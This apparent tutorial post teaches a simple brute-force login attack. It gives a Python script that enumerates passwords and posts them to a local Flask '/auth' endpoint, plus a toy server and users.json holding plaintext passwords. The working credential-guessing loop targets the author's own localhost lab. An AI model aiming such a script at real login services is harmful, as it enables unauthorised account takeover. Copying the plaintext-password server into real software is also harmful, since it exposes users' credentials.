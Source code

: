 ```yaml
---
title: "Simple brute-force attack example"
date: 2020-04-26
---
```


# Simple brute-force attack example

Let me show you simple brute-force attack that you can perform

__Please make sure that performing brute force attacks on other sites is illegal__

First, you need to write password generating code
Brute-force attack code block in python:
```python
    import requests
    k = 0  # password length
    counter = 0

    alphabet = '0123456789abcdefghijklmnopqrstuvwxyz'
    base = len(alphabet)

    while True:
        password = ''  # password

        # generator code
        i = counter
        while i > 0:
            reminder = i % base
            password = alphabet[reminder] + password
            i = i // base

        password = alphabet[0] * (k - len(password)) + password

        print(counter, password)  # test generated code
        response = requests.post('http://127.0.0.1:5000/auth',
                                 json={'login': 'cat', 'password': password})
        if response.status_code == 200:
            print('SUCCESS, password', password)
            break
        counter += 1
        if password == alphabet[-1] * k:  # max_password_for_given_length
            k += 1
            counter = 0
```

Second, since performing brute-force attack is illegal, I created own the simplest server file `server.py` using `flask` library and database `users.json`.

Note: _in real life user logins and passwords are encrypted and their alphabet is more complex than in this example_

`server.py` file code block:
```python
    import json

    from flask import Flask, request, Response

    app = Flask(__name__)

    stats = {
        'attempts': 0,
        'success': 0,
    }


    @app.route('/')
    def hello():
        return f'Hello, user! stats={stats}'


    @app.route('/auth', methods=['POST'])
    def auth():
        stats['attempts'] += 1

        data = request.json
        login = data['login']
        password = data['password']

        with open('users.json') as users_file:
            users = json.load(users_file)

        # users_file = open('users.json')
        # users = json.load(users_file)
        # users_file.close()

        if login in users and users[login] == password:
            status_code = 200
            stats['success'] += 1
        else:
            status_code = 401

        return Response(status=status_code)


    if __name__ == '__main__':
        app.run()

```

`users.json` file code block:
```json
    {
        "admin": "12345",
        "jack": "black",
        "cat": "dog"
    }
```

